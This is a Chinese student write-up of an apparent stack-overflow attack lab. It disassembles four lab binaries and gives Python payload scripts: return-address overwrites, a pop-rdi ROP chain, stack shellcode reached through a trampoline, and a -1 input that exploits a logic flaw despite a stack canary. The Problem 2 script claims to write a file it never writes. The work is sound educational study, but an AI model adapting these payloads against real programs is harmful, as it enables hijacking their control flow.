




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 

- **分析**：

  1. **反汇编逻辑分析**：
     通过 `objdump -d problem1` 反汇编程序，我们可以清晰地梳理出程序的执行流和字符串引用：

     * **确认 main 函数的输出顺序**：
       查看 main 函数，在调用 func 之前有如下指令：

       ```asm
       401274: mov    $0x402014,%edi
       401279: call   4010c0 <puts@plt>
       ...
       40135d: call   401232 <func>
       ```

       puts 函数使用的参数是 0x402014。使用 `objdump -s -j .rodata problem1` 查看只读数据段：

       ```text
       Contents of section .rodata:
        402000 01000200 59657321 49206c69 6b652049  ....Yes!I like I
        402010 43532100 446f2079 6f75206c 696b6520  CS!.Do you like 
        402020 4943533f 00557361 67653a20 2573203c  ICS?.Usage: %s <
        402030 66696c65 3e0a0072 00666f70 656e0066  file>..r.fopen.f
        402040 72656164 00596f75 20646f6e 2774206c  read.You don't l
        402050 696b6520 69742120 596f7520 6661696c  ike it! You fail
        402060 2100
       ```

       我们发现地址 0x402014 处的字符串正是 "Do you like ICS?"。这证明了程序必然会先执行此输出，随后才进入漏洞函数。

     * **确认 func1 的输出内容**：
       查看 func1 函数：

       ```asm
       40121e: mov    $0x402004,%edi
       401223: call   4010c0 <puts@plt>
       ```

       参数 0x402004 在 .rodata 段中对应的字符串是 "Yes!I like ICS!"。这确认了 func1 即为我们需要跳转的目标函数。

  2. **漏洞定位**：
     在 func 函数中，程序使用 strcpy 将从文件读取的内容复制到栈上的局部变量。目标缓冲区位于 rbp-0x8，长度仅 8 字节。

  3. **Payload 设计**：
     我们需要填充 16 字节（8字节缓冲区 + 8字节 Saved RBP），然后写入目标函数 func1 的地址 0x401216。

     - Padding: b'A' * 16
     - Address: 0x401216 

- **解决方案**：

  ```python
  import struct
  
  # 1. 构造 Padding：8字节Buffer + 8字节Saved RBP
  padding = b'A' * 16
  
  # 2. 目标地址 func1 = 0x401216
  func1_addr = 0x401216
  
  # 3. 将地址打包为64位小端序
  payload = padding + struct.pack("<Q", func1_addr)
  
  with open("ans1.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：



​		顺利通过第一题！

### Problem 2:

**分析**：

1. **反汇编与漏洞定位**：
   反汇编 problem2，发现 main 函数调用了 func。
   在 func 中，程序调用了 memcpy：

   ```asm
   4012a4: lea    -0x8(%rbp),%rax
   4012a8: mov    $0x38,%edx       ; copy 56 bytes
   ...
   4012b3: call   4010f0 <memcpy@plt>
   ```

   目标缓冲区位于 `rbp-0x8`，大小为 8 字节，但复制了 56 (0x38) 字节，存在严重的栈溢出漏洞。

2. **目标函数分析**：

   * **确认目标函数**：
     我们需要找到输出 "Yes!I like ICS!" 的代码位置。
     首先，使用 `objdump -s -j .rodata problem2` 查看只读数据段：

     ```
     402030 74206e75 6d626572 210a0059 65732149  t number!..Yes!I
     402040 206c696b 65204943 53210a00 57656c63   like ICS!..Welc
     ```

     可以看到字符串 "Yes!I like ICS!" 位于 0x402030 后的第 11 个字节处，即地址 `0x40203b`。

     接着，查看 func2 的反汇编代码：

     ```asm
     40124c: lea    0xde8(%rip),%rax        # 40203b <_IO_stdin_used+0x3b>
     401253: mov    %rax,%rdi
     40125b: call   4010d0 <printf@plt>
     ```

     计算 0x401253 + 0xde8 = 0x40203b，这证实了 func2 正是调用 printf 输出该字符串的函数，因此确定 func2 为攻击目标。

   * **函数逻辑分析**：
     func2 内部有检查逻辑：

     ```asm
     401222: mov    %edi,-0x4(%rbp)
     401225: cmpl   $0x3f8,-0x4(%rbp) 
     40122c: je     40124c <func2+0x36>
     ```

     只有当第一个参数（rdi）等于 0x3f8 时，才会跳转到 0x40124c 输出成功信息。这要求我们在跳转到 func2 前，必须将寄存器 rdi 设置为 0x3f8。

3. **ROP 构造**：
   由于这是 64 位程序，参数通过寄存器传递。我们需要找到一个 `pop rdi; ret` 的 Gadget 来将栈上的数据弹出到 rdi 寄存器。
   通过查找反汇编代码，我们在 pop_rdi 函数中发现了现成的 Gadget：

   ```asm
   4012bb: ...
   4012c7: pop    %rdi
   4012c8: ret
   ```

   地址 `0x4012c7` 处正好是 `pop rdi; ret` 指令。

4. **Payload 设计**：

   - **Padding**: 覆盖 8 字节 Buffer + 8 字节 Saved RBP = 16 字节。
   - **Gadget 地址**: 覆盖返回地址为 0x4012c7。
   - **参数值**: 紧跟 Gadget 之后，放入我们要弹入 rdi 的值 0x3f8。
   - **目标地址**: 设置 func2 的地址 0x401216，作为 Gadget 执行完 ret 后的跳转目标。

- **解决方案**：

  ```python
  import struct
  
  # 1. Padding: 16 字节
  padding = b'A' * 16

  # 2. ROP Gadget: pop rdi; ret
  pop_rdi_ret = 0x4012c7

  # 3. rdi 参数值
  arg_val = 0x3f8

  # 4. 目标函数: func2
  func2_addr = 0x401216

  # 构造 Payload
  payload = padding
  payload += struct.pack("<Q", pop_rdi_ret) # 设置返回地址为 Gadget 地址
  payload += struct.pack("<Q", arg_val)     # 放入 rdi 的值
  payload += struct.pack("<Q", func2_addr)  # Gadget 返回后跳转到 func2
  print("Payload written to ans2.txt")
  ```

- **结果**：



​		顺利通过第二题！

### Problem 3:

- **分析**：
  Problem 3 相比前两题难度显著增加，涉及利用 Trampoline（跳板）机制在栈上执行 Shellcode。题目核心在于没有现成的 Gadget 可以直接修改寄存器满足条件，但提供了一个特殊的跳转函数 `jmp_xs`，使得我们可以跳转回栈上执行自定义代码。

  1. **漏洞函数 func 分析**：

     ```asm
     40135d: sub    $0x30,%rsp              ; 分配 48 字节栈空间
     401365: mov    %rsp,%rax
     401368: mov    %rax,0x21a1(%rip)       ; <saved_rsp> 保存rsp值到全局变量
     401373: lea    -0x20(%rbp),%rax
     40137c: mov    $0x40,%edx
     401382: call   4010f0 <memcpy@plt>     ; 复制 64 字节到 rbp-0x20
     ```

     关键信息：

     -   **Buffer 位置**：rbp - 0x20。
     -   **栈帧大小**：0x30。即 rsp = rbp - 0x30。
     -   **Overflow**：memcpy 写入 64 字节，但从 rbp-0x20 开始到 rbp 只有 32 字节。
         - 覆盖范围：`[rbp-0x20, rbp)` (32字节 Buffer) -> `[rbp, rbp+8)` (8字节 Saved RBP) -> `[rbp+8, rbp+16)` (8字节 Return Address) -> `[rbp+16, rbp+24)` (溢出剩余部分)。
     -   **Saved RSP**：程序将 func 函数的 rsp (rbp-0x30) 保存到了全局变量 saved_rsp 中。

    2.  **目标函数 func1 分析**：

* **获取提示信息**：
  在实施攻击前，我们可以通过分析调用者 func 获得关于 lucky number 的线索。
  func 函数中有如下代码：

  ```asm
  401387: lea    0xc7a(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  40138e: mov    %rax,%rdi
  401391: call   puts
  ```

  查看 .rodata 段地址 0x402008 处的内容：
  "Now, say your lucky number is 114!"

  ```
  Contents of section .rodata:
   402000 01000200 00000000 4e6f772c 20736179  ........Now, say
   402010 20796f75 72206c75 636b7920 6e756d62   your lucky numb
   402020 65722069 73203131 34210000 00000000  er is 114!......
   402030 49662079 6f752064 6f207468 61742c20  If you do that, 
   402040 49207769 6c6c2067 69766520 796f7520  I will give you 
   402050 67726561 74207363 6f726573 2100446f  great scores!.Do
   402060 20796f75 206c696b 65204943 533f0055   you like ICS?.U
   402070 73616765 3a202573 203c6669 6c653e0a  sage: %s <file>.
   402080 00720066 6f70656e 00667265 61640059  .r.fopen.fread.Y
   402090 6f752064 6f6e2774 206c696b 65206974  ou don't like it
   4020a0 2120596f 75206661 696c2100           ! You fail!. 
  ```

* **func1 逻辑验证**：
  反汇编 func1 确认了这一要求：

  ```asm
  401222: mov    %edi,-0x44(%rbp)        ; 将参数 rdi 保存到栈
  401225: cmpl   $0x72,-0x44(%rbp)       ; 比较参数是否为 0x72
  401229: jne    401282                  ; 不相等则跳转到失败分支
  ```

  0x72 的十进制正是 114。

* **func1 的输出行为**：
  值得注意的是，func1 并没有直接从 .rodata 读取成功信息，而是通过 `movabs` 指令直接在栈上构建字符串 "Your lucky number is 114" 并输出。

  ```asm
  40122b: movabs $0x63756c2072756f59,%rax 
  ...
  401247: movabs $0x3431312073692072,%rax 
  ...
  40127b: call   puts
  ```

  这也是为什么即使只能利用 func1，我们也能获得期望的输出。

我们的目标是让 rdi = 114 并执行此函数。

  3. **特殊 Gadget `jmp_xs` 分析**：

     ```asm
     40133c: mov    0x21cd(%rip),%rax       ; 读取全局变量 saved_rsp
     401347: addq   $0x10,-0x8(%rbp)        ; 注意这里是对栈上临时变量加 0x10
     ; 仔细看反汇编逻辑：
     ; 401343: mov %rax, -0x8(%rbp) -> 将 saved_rsp 存入栈
     ; 401347: addq $0x10, -0x8(%rbp) -> 栈上值变为 saved_rsp + 0x10
     ; 40134c: mov -0x8(%rbp), %rax -> 读取新值
     ; 401350: jmp *%rax -> 跳转
     ```

     此函数计算跳转目标为 `saved_rsp + 0x10`。
     我们结合 func 的栈布局来验证这个跳转地址指向哪里：

     -   saved_rsp = func_rsp = func_rbp - 0x30
     -   Target = (func_rbp - 0x30) + 0x10 = func_rbp - 0x20
     -   `func_rbp - 0x20` 正是 func 中 Buffer 的**起始地址**！

     **结论**：jmp_xs 是一个完美的 Trampoline，它会跳转回我们刚刚写入数据的 Buffer 起始位置。如果我们在 Buffer 中放入 Shellcode，并将返回地址覆盖为 jmp_xs，程序就会执行：
     func return -> jmp_xs -> jmp (Buffer Start) -> Run Shellcode。

  4. **Payload & Shellcode 设计**：
     我们需要编写一段 x64 汇编代码完成以下任务：

     1.  设置 `rdi = 114`。
     2.  跳转或调用 `func1`。

     Shellcode 汇编：

     ```asm
     mov rdi, 114        ; 48 c7 c7 72 00 00 00
     mov rax, 0x401216   ; 48 c7 c0 16 12 40 00 (func1地址)
     jmp rax             ; ff e0
     ```

     Shellcode 长度为 16 字节，完全容纳在 32 字节的 Buffer 中。

- **解决方案**：

  ```python
  import struct
  
  # 1. 编写 Shellcode
  # 目的：rdi = 114; jmp 0x401216 (func1)
  shellcode = b'\x48\xc7\xc7\x72\x00\x00\x00'  # mov rdi, 0x72
  shellcode += b'\x48\xc7\xc0\x16\x12\x40\x00' # mov rax, 0x401216
  shellcode += b'\xff\xe0'                     # jmp rax
  
  # 2. 填充 Buffer (32字节)
  # 前部分是 Shellcode，后面用 NOP (0x90) 填充
  padding_len = 32 - len(shellcode)
  payload = shellcode + b'\x90' * padding_len
  
  # 3. 覆盖 Saved RBP (8字节)
  payload += b'B' * 8
  
  # 4. 覆盖返回地址 -> jmp_xs (0x401334)
  jmp_xs_addr = 0x401334
  payload += struct.pack("<Q", jmp_xs_addr)
  
  with open("ans3.txt", "wb") as f:
      f.write(payload)
  print("Payload written to ans3.txt")
  ```

- **结果**：



​		顺利通过第三题！

### Problem 4: 

- **分析**：

  Problem 4 与前几题有显著不同，展示了在存在 Stack Canary 保护的情况下，如何通过分析程序逻辑漏洞（而非单纯的缓冲区溢出）来实现目标。

  1. **Canary 保护机制分析**：

     通过 `objdump -d problem4` 查看反汇编代码，我们发现 main 和 func 函数都包含了 Stack Canary 的检查机制。

     * **插入 Canary**：

       ```asm
       142f: mov    %fs:0x28,%rax
       1438: mov    %rax,-0x8(%rbp)
       ```

       在函数入口处，程序从 `%fs:0x28` 读取一个随机值（Canary），并将其存储在 `rbp-0x8` 的位置。这个位置正好位于返回地址（`rbp+0x8`）和局部变量缓冲区之间。

     * **检查 Canary**：

       ```asm
       140a: mov    -0x8(%rbp),%rax
       140e: sub    %fs:0x28,%rax
       1417: je     141e
       ...
       141e: call   __stack_chk_fail
       ```

       在函数返回前，程序再次读取 `rbp-0x8` 的值并与 `%fs:0x28` 比较。如果两者不一致（说明发生了溢出篡改），则跳转到 `__stack_chk_fail` 终止程序。

     这一机制直接阻止了我们像 Problem 1-3 那样简单地通过溢出局部缓冲区来覆盖返回地址，因为这不可避免地会破坏位于中间的 Canary。

  2. **程序逻辑分析**：

     既然无法强行溢出，我们转向分析程序逻辑。

     * **输入流程**：
       main 函数进行了多次 scanf("%s") 与用户交互（聊天），并使用 Caesar Cipher 解密了一些字符串进行输出。
       最终进入一个死循环：

       ```asm
       1566: lea    -0xa0(%rbp),%rax
       157f: call   __isoc99_scanf      ; scanf("%d", &val)
       158c: call   func
       1592: jmp    1566                ; 无限循环
       ```

       程序不断读取一个整数并传递给 func。

     * **func 函数逻辑**：

       接受参数 arg。

       1. **初始检查**：

          ```asm
          137b: movl   $0xfffffffe,-0x10(%rbp) ; limit = 0xfffffffe (-2)
          ...
          13aa: cmp    -0x10(%rbp),%eax         ; if arg < limit
          13ad: jae    13c0                     ; jump if arg >= limit (Unsigned comparison)
          ```

          如果输入的 arg（无符号数）小于 0xfffffffe，则输出 "your money is not enough!" 并退出 func。
          这意味着我们需要输入一个非常大的无符号数，例如 `0xffffffff` (-1) 或 `0xfffffffe` (-2)。

       2. **循环逻辑**：

          如果检查通过，程序进入一个循环：

          ```asm
          13c0: movl   $0x0,-0x14(%rbp)         ; i = 0
          ...
          Loop:
          13c9: sub    $1,-0x18(%rbp)           ; arg--
          13cd: add    $1,-0x14(%rbp)           ; i++
          13d1: mov    -0x14(%rbp),%eax
          13d4: cmp    -0x10(%rbp),%eax
          13d7: jb     13c9                     ; while i < 0xfffffffe
          ```

          循环执行 0xfffffffe (约 42.9 亿) 次，大概需要几秒钟的时间。
          
          循环结束后，arg 的值变为：`Initial_Arg - 0xfffffffe`。

       3. **结果检查与目标调用**：

          ```asm
          13df: cmp    $0xffffffff,-0xc(%rbp)   ; 检查原始输入是否为 -1
          13e3: je     13f6                     ; 如果是，跳转到 13f6
          ...
          13f6: call   func1                    ; 调用目标函数！
          ```

          如果原始输入通过了验证，程序直接调用 func1。

       4. **目标函数 func1 分析**：

          我们进一步确认 func1 是否为我们想要的目标。

          ```asm
          1337: lea    0xcca(%rip),%rax        # 2008 <_IO_stdin_used+0x8>
          133e: mov    %rax,%rdi
          1341: call   10b0 <puts@plt>
          ```

          ​它调用 puts 输出位于 .rodata 偏移 0x2008 处的字符串。

          查看 `.rodata` 段：

          ```
          2000 01000200 00000000 67726561 74214920  ........great!I 
          2010 77696c6c 20676976 6520796f 75206772  will give you gr
          2020 65617420 73636f72 65730079 6f757220  eat scores.your 
          ```

          地址 0x2008 开始的内容正是 "great!I will give you great scores"。这证实了只要我们触发 func1，就能通过本题。

  3. **解题策略**：

     我们不需要绕过或泄漏 Canary。程序设计者留下了一个逻辑通道：只要输入 -1，虽然会触发大循环，但最终会合法地调用 func1 并获得 Flag。这是一个典型的逻辑漏洞。

- **解决方案**：

  构造输入文件 ans4.txt：

  ```text
  lg
  nb
  -1
  ```

  前两行用于 main 函数之前的 scanf("%s") 交互，可以任意输入字符串。最后一行 -1 触发 func 的隐藏逻辑。

- **结果**：



​顺利通过第四题！


## 思考与总结

1. 不安全函数危害很大，problem1 - problem3 都使用了不安全的 strcpy 和 memcpy 函数，没有对长度进行限制，导致栈溢出形成破坏。我们写代码的时候，应该谨防此类问题，避免栈溢出的攻击。
2. 金丝雀是一个很好的防护栈溢出的手段，但是不能保护逻辑漏洞，这需要我们写程序的时候注意一些逻辑上的漏洞，注意边界问题以及特殊值，谨防黑客因为输入某些特殊值产生了攻击。

## 参考资料

1. 让 AI 教我通过反汇编指令查看只读区域存储的内容
2. 我不太熟悉 python 语法，于是将输出的思路和具体内容告诉 gpt，让它帮我完成了最后一段简单的编程。
3. 查询了 endbr64 的含义，为防止控制流劫持。
4. 问 AI `pop rdi`是什么含义，帮助我解决第二题。
5. Problem 3我不会二进制编码的翻译，不知道汇编对应怎样的二进制编码，于是询问了 gpt，帮忙编写了 Problem 3的程序。
6. Problem 3的时候，我正常运行发现不通过，请求了gpt的检修，找出了错误；然后，运行依然不通过，AI 告诉我运行这个指令 `chmod +x problem3 && ./problem3 ans3.txt` 就能得到正确结果，这是因为文件缺少可执行性，增加可执行性即可。